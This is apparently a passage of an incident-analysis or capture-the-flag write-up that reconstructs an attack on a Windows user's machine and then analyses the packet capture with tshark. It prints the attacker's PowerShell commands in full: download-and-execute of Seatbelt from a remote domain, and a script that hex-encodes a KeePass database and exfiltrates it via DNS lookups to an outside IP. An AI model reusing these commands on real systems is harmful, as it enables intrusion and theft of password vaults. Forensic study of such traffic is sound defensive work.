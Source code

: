 ##### Seatbelt Execution
Locating sensitive files:
```powershell
cd Users;pwd
cd j.westcott;pwd
ps;pwd
iex(new-object net.webclient).downloadstring('https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Seatbelt.ps1');pwd
cd Public;pwd
cd Music;pwd
iwr http://files.bpakcaging.xyz/sb.exe -outfile sb.exe;pwd
.\\sb.exe all;pwd
.\\sb.exe system;pwd
.\\sb.exe;pwd
.\\sb.exe -group=all;pwd
Seatbelt.exe -group=user;pwd
.\\sb.exe -group=user;pwd
ls C:\\Users\\j.westcott\\Documents\\protected_data.kdbx;pwd
```

##### KeePass Database Exfiltration
Exfiltrating via DNS:
```powershell
$file='protected_data.kdbx'; 
$destination = "167.71.211.113"; 
$bytes = [System.IO.File]::ReadAllBytes($file);
split-path $pwd'\\0x00';
$file='C:\\Users\\j.westcott\\Documents\\protected_data.kdbx'; 
$destination = "167.71.211.113"; 
$bytes = [System.IO.File]::ReadAllBytes($file);
$hex = ($bytes|ForEach-Object ToString X2) -join '';
$split = $hex -split '(\\S{50})'; 
ForEach ($line in $split) { 
    nslookup -q=A "$line.bpakcaging.xyz" $destination;
} 
echo "Done";
```

---

### Network Analysis

#### HTTP Traffic
Identifying servers:
```bash
$ tshark -r capture.pcapng -Y 'http.response_for.uri contains "bpakcaging.xyz" and http' -T json | jq -r '.[]."_source".layers.http | with_entries(if (.key|test("http.(server)")) then ({key: "server", value: .value}) else empty end) | .server' | sort | uniq -c | sort -nr
    929 Apache/2.4.1 
      3 SimpleHTTP/0.6 Python/3.10.7
```

#### Command Executions
Decoding POST data:
```bash
$ tshark -r capture.pcapng -Y 'http.request.full_uri contains "/27fe2489" and http' -T json| jq -r '.[]."_source".layers.http | with_entries(if (.key|test("http.file_data")) then ({key: "data", value: .value}) else empty end) | .data' | head -n1
  13 13 10 13 10 80 97 116 104 32 32 32 32 32 32 32 32 32 32 32 32 32 32 32 13 10 45 45 45 45 32 32 32 32 32 32 32 32 32 32 32 32 32 32 32 13 10 67 58 92 87 105 110 100 111 119 115 92 115 121 115 116 101 109 51 50 13 10 13 10 13 10
```
